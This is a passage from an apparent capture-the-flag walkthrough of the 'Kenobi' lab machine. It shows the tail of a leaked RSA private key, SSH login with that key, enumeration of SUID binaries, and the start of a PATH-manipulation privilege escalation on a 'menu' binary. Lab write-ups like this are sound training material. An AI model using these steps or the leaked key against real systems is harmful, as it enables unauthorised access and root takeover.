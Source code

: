     YNY61y+DdXUvywifkzFmhYkCgYB6TeZbh9XBVg3gyhMnaQNzDQFAUlhM7n/Alcb7
    TjJQWo06tOlHQIWi+Ox7PV9c6l/2DFDfYr9nYnc67pLYiWwE16AtJEHBJSHtofc7
    P7Y1PqPxnhW+SeDqtoepp3tu8kryMLO+OF6Vv73g1jhkUS/u5oqc8ukSi4MHHlU8
    H94xjQKBgExhzreYXCjK9FswXhUU9avijJkoAsSbIybRzq1YnX0gSewY/SB2xPjF
    S40wzYviRHr/h0TOOzXzX8VMAQx5XnhZ5C/WMhb0cMErK8z+jvDavEpkMUlR+dWf
    Py/CLlDCU4e+49XBAPKEmY4DuN+J2Em/tCz7dzfCNS/mpsSEn0jo
    -----END RSA PRIVATE KEY-----
    ```

Change access rights of `id_rsa` and login as kenobi to read `user.txt`:

``` sh
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.153.226
cat /home/kenobi/user.txt
```

## Task 4  Privilege Escalation with Path Variable Manipulation

To search the a system for SUID bits run the following:```find / -perm -u=s -type f 2>/dev/null```

??? output "SUID bits"
    ``` sh
    /sbin/mount.nfs
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/snapd/snap-confine
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/bin/chfn
    /usr/bin/newgidmap
    /usr/bin/pkexec
    /usr/bin/passwd
    /usr/bin/newuidmap
    /usr/bin/gpasswd
    /usr/bin/menu
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/at
    /usr/bin/newgrp
    /bin/umount
    /bin/fusermount
    /bin/mount
    /bin/ping
    /bin/su
    /bin/ping6
    ```

Running```/usr/bin/menu``` shows us the binary is running without a full path:

``` txt
1. status check
2. kernel version
3. ifconfig
```
